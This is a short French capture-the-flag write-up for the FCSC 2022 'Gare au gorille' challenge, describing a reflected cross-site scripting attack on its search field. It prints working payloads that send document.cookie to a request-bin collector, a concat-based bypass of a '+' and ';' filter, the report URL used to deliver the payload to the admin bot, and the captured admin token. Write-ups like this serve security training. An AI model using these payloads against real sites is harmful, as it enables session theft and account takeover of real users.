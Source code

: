<h1>Gare au gorille</h1>

<p>On test dans un premier temps le champs search :</p>

> https://gare-au-gorille.france-cybersecurity-challenge.fr/?search=<script>alert(1)</script> <br/>



![Alt text](https://github.com/Haktary/FCSC-2022/blob/main/Gare%20au%20gorille/Capture%20d’écran%202022-05-10%20160319.png?raw=true "alert")

<br/>
<br/>
cela fonctionne on test donc simplement : <br/>
je crée une request bin https://requestbin.net 

<script>document.location= urlrequestbin?= + document.cookie </script>
<br/>
cela ne marche pas après plusieurs test on se rend compte que les '+' et les ';' ne fonctionne pas. Pour contourner le problème je fais donc une recherche type javascript concat fonction et je tombe bien sur une fonction concat et modifie mon payload en conséquense : <br/> 


  <script>document.location="".concat('urlrequestbin?=', document.cookie)</script> 
</br>
on recupère notre propre token, on envoie donc la payload à l'admin par l'url de report : <br/> 

https://gare-au-gorille.france-cybersecurity-challenge.fr/report?url=/?search=<script>document.location="".concat(%27http://urlrequestbin?=%27,%20document.cookie)</script> <br/>

on set maintenant le token dans notre cookie dans le header : <br/>

Cookie: token=O9Mv3sFaQD1UpQRLCXVOCzCi0dRbpz4Wy4kGPngZt36MZnR6xZpbHLQRWfDi6T45 <br/>







